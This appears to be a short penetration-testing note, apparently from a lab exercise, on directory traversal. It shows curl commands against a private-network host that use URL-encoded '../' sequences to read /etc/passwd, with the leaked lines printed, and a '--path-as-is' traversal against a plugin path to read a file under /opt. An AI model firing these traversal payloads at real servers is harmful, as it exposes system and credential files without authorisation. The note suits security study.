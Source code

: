 https://blog.certcube.com/a-guide-to-directory-traversal-vulnerability/


If you cannot get information with regular directory traversal, use special encoding
┌──(hollacosta㉿kali1)-[~]
└─$ curl http://192.168.249.16/cgi-bin/../../../../../../../etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>

┌──(hollacosta㉿kali1)-[~]
└─$ curl http://192.168.249.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin


 curl --path-as-is http://192.168.249.16:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fopt/install.txt

![[Pasted image 20230928110120.png]]
